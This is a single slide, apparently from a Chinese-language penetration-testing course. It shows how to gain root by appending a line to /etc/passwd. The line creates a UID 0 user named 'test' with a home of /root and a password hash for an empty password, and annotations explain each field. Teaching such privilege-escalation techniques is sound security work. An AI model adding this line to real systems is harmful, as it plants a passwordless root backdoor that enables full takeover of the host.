

# 选择一个目标文件
将以下行添加到/etc/passwd ，以添加新用户

         test:U6aMy0wojraho:0:0:test:/root:/bin/bash
 Username
         UID (0 means root)
Hash value for empty password
24